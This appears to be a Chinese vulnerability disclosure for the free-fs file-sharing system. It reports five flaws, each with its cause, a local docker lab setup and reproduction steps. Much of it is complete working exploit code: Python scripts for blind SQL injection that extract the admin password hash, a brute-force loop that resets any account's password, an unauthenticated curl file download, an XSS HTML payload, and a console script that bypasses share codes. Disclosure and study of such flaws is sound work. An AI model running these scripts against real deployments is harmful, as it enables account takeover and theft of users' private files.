



# free-fs 漏洞报告

软件名称：free-fs

开发者或厂商：dromara

代码仓库：https://github.com/dromara/free-fs

## 1. 分享列表接口 orderBy 参数 SQL 注入

简要描述：持有普通账号的攻击者可通过分享列表接口的 `orderBy` 参数注入 SQL，读取数据库中任意表的数据。

影响版本：2.0.x ~ 2.3.x

前置条件：攻击者持有任意可登录账号（若系统开放注册，则可以直接注册一个）。

### 漏洞成因

`FileShareServiceImpl.getPages` 把请求参数 `orderBy` 交给 `StrUtil.toUnderlineCase` 处理后，直接作为字符串传给 MyBatis-Flex 的 `wrapper.orderBy`。该重载接收字符串时会生成 `RawQueryColumn`，把内容原样拼进 SQL，不做列名白名单校验，而 `StrUtil.toUnderlineCase` 只做驼峰转换，起不到任何过滤作用。相关代码如下：

```java
// fs-modules/fs-file/src/main/java/com/xddcodec/fs/file/service/impl/FileShareServiceImpl.java:94-100
if (StringUtils.isEmpty(qry.getOrderBy()) || StringUtils.isEmpty(qry.getOrderDirection())) {
    wrapper.orderBy(FILE_SHARE.CREATED_AT.desc());
} else {
    String orderBy = StrUtil.toUnderlineCase(qry.getOrderBy());
    boolean isAsc = "ASC".equalsIgnoreCase(qry.getOrderDirection());
    wrapper.orderBy(orderBy, isAsc);
}
```

注入点位于 `ORDER BY` 子句，攻击者可以写入任意表达式。把表达式写成 `case when` 形式，让真条件与假条件在两条分享之间选出不同的排序键，返回结果的首条记录就会不同，据此可以逐字节读出数据。

同一写法在 2.0.1 的 `getList` 中已经出现，此后只改过方法名与所在位置，一直保留到 2.3.1。

### 复现环境搭建

实验环境用仓库自带的 compose 文件部署，操作如下：

```bash
git clone https://github.com/dromara/free-fs.git
cd free-fs/src/docker
docker compose up -d --build
```

环境启动后注册一个普通账号，在自己的工作空间中依次新建 `BBB` 与 `AAA` 两个文件夹，再分别创建分享。

### 复现过程

用该普通账号调用分享列表接口，分别提交真假两个条件：

```python
import uuid

import requests

BASE = "http://127.0.0.1:18080"

s = requests.Session()
u = "v" + uuid.uuid4().hex[:8]
s.post(BASE + "/apis/user/register", json={"username": u, "password": "Passw0rd!123",
                                           "confirmPassword": "Passw0rd!123",
                                           "email": u + "@demo.local", "nickname": u})
s.post(BASE + "/apis/auth/login", json={"loginType": "password", "account": u,
                                        "password": "Passw0rd!123", "isRemember": True})
wid = s.post(BASE + "/apis/workspace", json={"name": u, "slug": "s" + uuid.uuid4().hex[:10]}).json()["data"]["id"]
s.headers["X-Workspace-Id"] = wid
for name in ["BBB", "AAA"]:
    d = s.post(BASE + "/apis/file/directory", json={"folderName": name, "parentId": None}).json()["data"]
    s.post(BASE + "/apis/share/create", json={"fileIds": [d["id"]], "shareName": name, "expireType": 4,
                                              "scope": "preview,download", "needShareCode": False})


def top(cond):
    order = "(case when " + cond + " then share_code else share_name end)"
    r = s.get(BASE + "/apis/share/pages", params={"orderBy": order, "orderDirection": "ASC",
                                                  "page": 1, "pageSize": 1}, timeout=60)
    return r.json()["data"]["records"][0]["shareName"]


print("1=1 ->", top("1=1"))
print("1=2 ->", top("1=2"))
```

执行结果为：

```
1=1 -> BBB
1=2 -> AAA
```

真条件时按 `share_code` 排序，假条件时按 `share_name` 排序，首条记录因此不同。把条件换成子查询即可读出任意数据：

```python
import uuid

import httpx

BASE = "http://127.0.0.1:18080"

c = httpx.Client(base_url=BASE, timeout=30)
u = "v" + uuid.uuid4().hex[:8]
c.post("/apis/user/register", json={"username": u, "password": "Passw0rd!123",
                                    "confirmPassword": "Passw0rd!123",
                                    "email": u + "@demo.local", "nickname": u})
c.post("/apis/auth/login", json={"loginType": "password", "account": u,
                                 "password": "Passw0rd!123", "isRemember": True})
wid = c.post("/apis/workspace", json={"name": u, "slug": "s" + uuid.uuid4().hex[:10]}).json()["data"]["id"]
c.headers["X-Workspace-Id"] = wid
for name in ["BBB", "AAA"]:
    d = c.post("/apis/file/directory", json={"folderName": name, "parentId": None}).json()["data"]
    c.post("/apis/share/create", json={"fileIds": [d["id"]], "shareName": name, "expireType": 4,
                                       "scope": "preview,download", "needShareCode": False})


def top(cond):
    order = "(case when " + cond + " then share_code else share_name end)"
    r = c.get("/apis/share/pages", params={"orderBy": order, "orderDirection": "ASC",
                                           "page": 1, "pageSize": 1})
    return r.json()["data"]["records"][0]["shareName"]


print(top("1=1"))
print(top("1=2"))
print(top("(select ascii(substr(password,1,1)) from sys_user where username='admin')=36"))
print(top("(select ascii(substr(password,1,1)) from sys_user where username='admin')=65"))
```

执行结果为：

```
BBB
AAA
BBB
AAA
```

后两行说明 admin 口令哈希的首字符是 `$`，普通账号由此可以确认自己已经读到 `sys_user` 表。把条件换成任意子查询，就能按同样方式读出其他用户的口令哈希、分享提取码以及 `file_info` 表中的 `object_key`，再借助第 3 节的无鉴权文件流接口下载任意用户的文件。

## 2. 找回密码验证码可无限次尝试

简要描述：找回密码的六位数字验证码没有尝试次数限制，攻击者可以穷举并重置任意账号的口令。

影响版本：2.0.x ~ 2.3.x

前置条件：攻击者知道目标账号的邮箱地址。

### 漏洞成因

`SysUserServiceImpl.updateForgetPassword` 只把提交的验证码与 Redis 中保存的验证码做一次字符串比较，比对失败时既不累加失败次数，也不作废已下发的验证码，更没有锁定账号或加入延时。相关代码如下：

```java
// fs-modules/fs-system/src/main/java/com/xddcodec/fs/system/service/impl/SysUserServiceImpl.java:278-289
String redisKey = RedisKey.getForgetPasswordKey(email);
String redisCode = (String) redisRepository.get(redisKey);
if (!code.equals(redisCode)) {
    throw new BusinessException(I18nUtils.getMessage("user.verification.code.incorrect"));
}
SysUser user = this.getOne(new QueryWrapper().where(SYS_USER.EMAIL.eq(email)));
if (user == null) {
    throw new BusinessException(I18nUtils.getMessage("user.verification.code.incorrect"));
}
```

验证码为六位数字，自 2.0.1 起就是如此，取值空间为一百万。下发验证码时缓存会被设置 300 秒的过期时间，也就是 `RedisExpire.VERIFY_CODE = 5 * 60`，因此单个验证码只在五分钟内有效，过期后提交原来的正确值同样会返回错误。

不过在这五分钟的窗口内，`updateForgetPassword` 既不累计失败次数，也不作废验证码，更没有延时或锁定账号，所以校验接口可以被任意次调用。攻击者只要在窗口内把尽量多的取值试一遍，窗口结束后重新申请验证码，就能一轮接一轮地继续，直到命中。重新申请会覆盖旧值，旧验证码随即失效，因此每一轮都从一次新的申请开始。

2.3.x 给发送验证码的接口加了频率限制，同一邮箱在 60 秒内只能申请一次，相关常量是 `VERIFY_CODE_SEND_INTERVAL_SECONDS = 60`。然而，该限制只影响发送验证码，不影响爆破，且 60s 限制小于验证码的 5min 有效期，因此该修补对本漏洞毫无修复作用。

### 复现环境搭建

实验环境用仓库自带的 compose 文件部署，操作如下：

```bash
git clone https://github.com/dromara/free-fs.git
cd free-fs/src/docker
docker compose up -d --build
```

环境启动后注册一个账号，记下它的邮箱地址。

### 复现过程

直接运行下面的脚本，把目标账号的邮箱作为参数传入。脚本自己负责申请验证码，每一轮把尝试限制在五分钟内，超时后重新申请并继续：

```python
import sys
import time

import httpx

BASE = "http://127.0.0.1:18080"
mail = sys.argv[1]
newpwd = "Pwned12345"

with httpx.Client(base_url=BASE, timeout=10) as c:
    while True:
        c.get("/apis/user/forget-password/code/" + mail)
        deadline = time.time() + 300
        for i in range(1000000):
            if time.time() > deadline:
                break
            r = c.put("/apis/user/forget-password", json={
                "mail": mail, "code": "%06d" % i,
                "newPassword": newpwd, "confirmPassword": newpwd})
            if r.json()["code"] == 200:
                print("hit", "%06d" % i)
                raise SystemExit
```

命中后脚本会打印验证码并退出，此后可以用新口令直接登录。若某一轮在五分钟内没有命中，`deadline` 触发，脚本重新申请验证码，在新窗口里从 `000000` 重新开始。

## 3. 文件流接口缺少鉴权

简要描述：文件流接口不校验登录状态，也不校验文件归属，任何人只要持有文件 ID 即可下载文件内容。

影响版本：2.0.x ~ 2.3.x

前置条件：已知文件 ID（可通过 SQL 注入获取）。

### 漏洞成因

登录拦截器自 2.0.1 起只覆盖 `/apis/**`，`/api/file/stream` 与静态资源映射 `/files/**` 都不在该范围内。`FileStreamController` 的 `/api/file/stream/preview/{fileId}` 直接按 ID 取出文件记录并回显内容，既不校验调用者身份，也不校验文件所属工作空间。2.2.0 起新增的 `PreviewInterceptor` 只拦截 `/preview/**`、`/archive/preview/**` 和归档内文件流这三类路径，同样覆盖不到这个接口。相关代码如下：

```java
// fs-modules/fs-file/src/main/java/com/xddcodec/fs/file/controller/FileStreamController.java:52-70
@GetMapping("/preview/{fileId}")
public ResponseEntity<StreamingResponseBody> preview(@PathVariable String fileId, ...) {
    FileInfo fileInfo = fileInfoService.getById(fileId);
    ...
    StreamingResponseBody stream = outputStream -> {
        try (InputStream sourceStream = storageService.downloadFile(fileInfo.getObjectKey())) {
            copyStream(sourceStream, outputStream);
        }
    };
    ...
}
```

### 复现环境搭建

实验环境用仓库自带的 compose 文件部署，操作如下：

```bash
git clone https://github.com/dromara/free-fs.git
cd free-fs/src/docker
docker compose up -d --build
```

环境启动后用 `admin` / `admin` 登录，上传一个文本文件。

### 复现过程

先确认工作空间内的业务接口需要登录，请求 `/apis/file/list` 时得到：

```
{"code":401,"msg":"未登录"}
```

登录后打开文件列表，页面会请求 `/apis/file/list?page=1&pageSize=10`，响应中带有文件的 `id`：

```
"id":"68759929f0b04d84b7bad96021f070cf"
```

分享页同样会暴露 ID。把一个文件夹分享出去后，匿名打开分享链接，前端请求 `/apis/share/{shareId}/items` 就能拿到该文件夹及其子文件的 `id`。

用这个 ID 直接访问流接口，请求不带任何 Cookie 与请求头：

```bash
curl -s "http://127.0.0.1:18080/api/file/stream/preview/68759929f0b04d84b7bad96021f070cf"
```

输出为：

```
employee,iban,salary
A,DE00 1234,9000
```

文件内容被完整返回，可见该接口既不校验登录，也不校验文件所属的工作空间。

## 4. 文件预览页 XSS

简要描述：文件流预览接口以 `text/html` 内联返回攻击者上传的 HTML 文件，脚本在应用自身源下执行。

影响版本：2.0.x ~ 2.3.x

前置条件：受害者打开攻击者提供的预览链接。

### 漏洞成因

`FileStreamController` 在组装响应头时按原文件扩展名推断 `Content-Type`，并把 `Content-Disposition` 固定写成 `inline`，既不判断文件类型是否安全，也不附加 `X-Content-Type-Options`。因此以 `.html` 结尾的文件会被浏览器当作页面解析，其中的脚本随即执行。相关代码如下：

```java
// fs-modules/fs-file/src/main/java/com/xddcodec/fs/file/controller/FileStreamController.java:209-228
String responseExtension = strategy.getResponseExtension(file.getSuffix());
String fileName = changeExtension(file.getDisplayName(), responseExtension);
headers.setContentType(MediaTypeFactory.getMediaType(fileName)
        .orElse(MediaType.APPLICATION_OCTET_STREAM));
headers.set(HttpHeaders.CONTENT_DISPOSITION,
        "inline; filename*=UTF-8''" + encodeFileName(fileName));
```

同一缺陷在第 3 节所述的免登录前提下同样成立，攻击者可以完全不持有账号，也能把钓鱼链接发给任意已登录用户。脚本运行在与应用相同的源下，因此可以带着受害者的 Cookie 调用 `/apis` 下的接口。

### 复现环境搭建

实验环境用仓库自带的 compose 文件部署，操作如下：

```bash
git clone https://github.com/dromara/free-fs.git
cd free-fs/src/docker
docker compose up -d --build
```

环境启动后注册一个账号，在自己的工作空间中上传下面这个文件。

### 复现过程

准备一个 HTML 文件，内容如下：

```html
<html><body><h1>invoice</h1><div id="r"></div><script>
document.getElementById('r').textContent='exec '+document.domain;
</script></body></html>
```

上传后取到文件的 `id`，用无痕窗口打开对应的流地址：

```bash
curl -s -D- -o /dev/null "http://127.0.0.1:18080/api/file/stream/preview/f6271d765c7b4c56895be2511324428d"
```

响应头中可以看到类型被设置为 `text/html`，并且声明为内联展示：

```
HTTP/1.1 200 
Content-Disposition: inline; filename*=UTF-8''invoice.html
Cache-Control: public, max-age=604800
Content-Type: text/html
```

在浏览器中打开该地址，页面渲染结果如下：



页面中的脚本已经执行，`document.domain` 取到的是应用自身的域名，说明脚本与应用同源。把脚本换成读取登录态数据的请求，即可在受害者浏览该链接时取走其文件内容。

## 5. 分享提取码与权限范围校验缺失

简要描述：分享接口不校验提取码，也不校验分享设置的权限范围，任何登录用户只要知道分享 ID 即可列出并下载分享内容。

影响版本：2.0.x ~ 2.3.x

前置条件：已知分享 ID。

### 漏洞成因

2.0.x 至 2.2.x 期间，`getShareFileItems` 只判断分享记录是否存在，`downloadFiles` 只判断文件是否属于该分享，两者都不读取提取码，也不判断 `scope`。2.3.x 把这两个校验抽成了 `FileShareServiceImpl.getValidShare` 与 `getShareAccessibleFile`，并补上了过期时间与查看次数上限的判断，但仍然不比对提取码，也不读取 `scope`。相关代码如下：

```java
// fs-modules/fs-file/src/main/java/com/xddcodec/fs/file/service/impl/FileShareServiceImpl.java:330-334
public FileDownloadVO downloadFiles(String shareId, String fileId) {
    FileShare fileShare = getValidShare(shareId);
    List<String> shareFileIds = fileShareItemService.getShareFileIds(shareId);
    FileInfo fileInfo = getShareAccessibleFile(fileShare, shareFileIds, fileId);
```

```java
// fs-modules/fs-file/src/main/java/com/xddcodec/fs/file/service/impl/FileShareServiceImpl.java:390-397
private FileShare getValidShare(String shareId) {
    FileShare fileShare = this.getById(shareId);
    if (fileShare == null) {
        throw new BusinessException(I18nUtils.getMessage("share.not.exist.or.deleted"));
    }
    validateShareNotExpired(fileShare);
    return fileShare;
}
```

`getValidShare` 既不比对 `share_code`，也不读取 `scope`，因此提取码与权限范围对列表接口和下载接口都没有约束力。

### 复现环境搭建

后端与前端分别启动。后端用仓库自带的 compose 文件部署：

```bash
git clone https://github.com/dromara/free-fs.git
cd free-fs/src/docker
docker compose up -d --build
```

前端从官方仓库拉取并安装依赖，启动时把接口代理指向后端：

```bash
git clone https://gitee.com/xddcodec/free-fs-frontend.git
cd free-fs-frontend
pnpm install
VITE_API_BASE_URL=http://localhost:8080 pnpm dev --port 5173 --host 0.0.0.0
```

随后在浏览器中注册账号 A 与账号 B，A 新建工作空间并上传一个文本文件。

### 复现过程

用账号 A 登录，在文件列表中对目标文件点击右键菜单里的「分享」，把「分享类型」选为「私密分享」，「分享权限」只勾选「预览」：



链接生成后可以看到提取码为 `0OmQ`，权限只含预览。在未登录的窗口打开这条链接，页面要求输入提取码：



此时用账号 B 登录，并进入 B 自己新建的工作空间，任选一个页面打开，例如 `http://localhost:5173/w/<B 的工作空间标识>/files`。从 `/apis/workspace/list` 的响应中可以取到 B 的工作空间 ID。在该页面的开发者工具控制台执行下面这段代码，把分享 ID 与文件 ID 换成上面得到的那两个值：

```javascript
const ws = "<B 的工作空间 ID>";
const share = "01m5pqs7cn7k07vzv2k69erf61";
const file = "53d13931b147422f859097963b742b59";

for (const p of [`/apis/share/${share}/items`, `/apis/share/${share}/download/${file}`]) {
  const r = await fetch(p, {credentials: "include", headers: {"X-Workspace-Id": ws}});
  console.log(p, r.status, (await r.text()).slice(0, 200));
}
```

控制台输出为：

```
/apis/share/01m5pqs7cn7k07vzv2k69erf61/items 200 {"data":[{"displayName":"payroll.txt","id":"53d1393...
/apis/share/01m5pqs7cn7k07vzv2k69erf61/download/53d13931b147422f859097963b742b59 200 employee,salary
A,9000
```

两个请求都没有提交提取码，列表接口返回了文件名与文件 ID，下载接口直接返回了文件原文。


